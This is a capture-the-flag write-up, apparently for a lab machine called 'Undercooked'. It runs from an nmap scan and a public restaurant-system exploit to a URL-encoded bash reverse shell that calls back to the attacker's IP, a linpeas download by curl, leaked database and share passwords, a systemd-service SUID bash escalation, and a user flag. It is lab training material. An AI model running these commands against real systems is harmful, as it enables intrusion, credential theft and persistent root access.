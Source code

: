 # Undercooked

## Enumeration
```bash
└─$ sudo nmap -sS -A -p- 10.10.21.81
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 23:05 BST
Nmap scan report for 10.10.21.81
Host is up (0.031s latency).
Not shown: 65358 filtered tcp ports (no-response), 175 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X (88%), Crestron 2-Series (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 3.13 (88%), Crestron XPanel control system (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   31.48 ms 10.8.0.1
2   31.74 ms 10.10.21.81
```

### Gobuster gives me this path : /kitchen
```bash
searchsploit RMS

sudo python 47520.py <IP>:<PORT>/kitchen
```
## Exploitation
### I did a reverse shell but url encoded
```sh -i >& /dev/tcp/10.8.37.214/4447 0>&1 = sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.37.214%2F4447%200%3E%261```

### I got a reverse shell

### I upgrade it
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

sh-4.2$ cat config.php
cat config.php
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbkitchen');
    define('APP_NAME', 'Onion Kingdom');
    error_reporting(1);
?>
```
## Privilege Escalation
### I download linpeas on the target machin
```bash
curl -0 http://10.8.37.214/linpeas.sh > linpeas.sh

./linpeas

/etc/fstab:#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=kevin,password=ThisIsAnImpossibleToFindPassword,domain=localdomain,soft	0 0
```
### I went on the onion ssh session

```bash
ssh onion@<IP>
```

## User FLAG

```cat user.txt``` : EPI{Ph0r_S0Up_CU7_0N10ns_7h47s_17}

### I have write privileges over /etc/systemd/system/kitchen.service
```
sudo /usr/sbin/reboot

./bash -p (execute with suid permission)

[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/onion/bash; chmod +xs /home/onion/bash'

[Install]
WantedBy=multi-user.target
```

## Root FLAG
I forgot to write it :(
